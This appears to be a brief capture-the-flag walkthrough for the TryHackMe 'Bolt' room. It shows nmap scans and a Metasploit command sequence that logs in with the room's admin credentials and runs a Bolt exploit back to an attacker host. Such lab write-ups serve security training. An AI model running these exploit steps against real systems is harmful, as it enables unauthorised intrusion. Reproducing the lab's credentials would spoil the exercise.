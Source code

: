 # Bolt

**Room Link:** [https://tryhackme.com/room/bolt](https://tryhackme.com/room/bolt)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (6) (2).png" alt=""><figcaption></figcaption></figure>





### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (5) (2).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (13) (9).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (8) (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (7) (8).png" alt=""><figcaption></figcaption></figure>

###

###

###

**Kali**

```
msfconsole
```

**Kali(msfconsole)**

```
search bolt
use 0
set RHOST $VICTIM
set LHOST $KALI
set USERNAME bolt
set PASSWORD boltadmin123
set TARGETURI http://$VICTIM:8000
run
```

<figure><img src="../../.gitbook/assets/image (13) (1) (2).png" alt=""><figcaption></figcaption></figure>























































